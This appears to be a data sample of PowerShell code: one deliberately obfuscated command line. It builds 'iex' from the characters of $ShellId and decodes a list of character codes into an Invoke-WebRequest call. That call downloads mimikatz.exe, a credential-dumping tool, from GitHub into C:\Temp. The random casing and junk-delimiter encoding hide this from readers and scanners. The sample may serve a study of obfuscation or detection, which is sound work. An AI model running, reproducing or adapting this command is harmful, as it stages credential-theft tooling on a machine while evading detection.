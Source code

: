 # code-powershell
 & ( $shEllID[1]+$SHeLlid[13]+'x')( " $( Set  'oFs'  '' ) " + [stRINg]('73U110>118b111a107a101a45t87R101R98!82d101t113d117R101!115!116>32d34X104p116X116d112!115t58!47d47X103X105a116d104a117U98d46>99p111a109X47X80b97U114a114b111>116X83U101d99!47p109>105U109R105b107X97b116p122p47d98p108!111t98X47t109U97b115!116X101>114U47!87d105t110X51t50d47a109d105d109t105p107X97d116R122b46R101p120>101t34>32b45U79a117!116b70d105p108t101R32R34b67!58X92t84R101b109!112!92X109U105!109R105t107b97X116b122X46U101>120>101a34'-spLit 'a'-SPlIT'U'-sPlit 'R' -Split'b'-SPliT'd' -splIt 'p'-SPlit'!' -spLiT 'X' -splIt'>'-SpLiT't'| ForeaCH-ObJeCT{([cHAr] [inT]$_) }) +"$( SeT-vArIaBle  'oFS' ' ')" )
